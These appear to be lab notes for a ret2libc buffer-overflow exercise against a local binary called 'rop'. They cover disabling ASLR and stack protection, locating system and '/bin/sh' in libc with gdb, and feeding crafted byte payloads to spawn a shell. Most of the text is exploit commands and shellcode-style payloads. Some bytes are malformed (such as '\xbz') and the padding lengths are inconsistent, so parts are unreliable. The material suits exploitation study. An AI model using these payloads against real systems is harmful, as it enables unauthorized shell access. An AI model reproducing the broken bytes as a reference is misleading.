 *Disable ASLR*


*Try and smash stack*

    cat <(python -c 'print "A"*140') - | ./rop

gives *** stack smashing detected ***: ./rop terminated

Use flag ""-fno-stack-protector" for compilation.

*Find <system> call*

    gdb rop
    (gdb) break main
    (gdb) run
    (gdb) print system

$1 = {<text variable, no debug info>} 0x7ffff7a52390 <__libc_system> (0xb7ccada0 for 32-bit)
little endian representation of the adress is \x90\x23\xa5\xf7\xff\x7f (\xa0\xad\xcc\xbz)

So to jump to system call we can do:
cat <(python -c 'print "\x00"*140+"\x90\x23\xa5\xf7\xff\x7f"') - | ./rop
cat <(python -c 'print "\x00"*140+"\xa0\xad\xcc\xb7"') - | ./rop

*Find "/bin/sh" string in system library*

    (gdb) break main
    (gdb) run
    (gdb) print &system
    (gdb) find &system,+9999999,"/bin/sh"

Returned address is: 0x7ffff7b99d17 (0xb7deb9ab)

*Finale*
64-bit
cat <(python -c 'print "\x00"*140 + "\x90\x23\xa5\xf7\xff\x7f" + "\x01"*8 + "\x17\x9d\xb9\xf7\xff\x7f" + "\x5c\x6e"') - | ./rop
cat <(python -c 'print "\x41"*16 + "\x90\x23\xa5\xf7\xff\x7f" + "\x01"*8 + "\x17\x9d\xb9\xf7\xff\x7f" + "\x5c\x6e"') - | ./rop

32-bit
cat <(python -c 'print "\x41"*16 + "\xa0\xad\xcc\xbz" + "\x00"*4 + "\xab\xb9\xde\xb7"') - | ./rop
./rop $"(python -c 'print "\x41"*20 + "\xa0\xad\xcc\xb7" + "\x00"*4 + "\xab\xb9\xde\xb7"')"
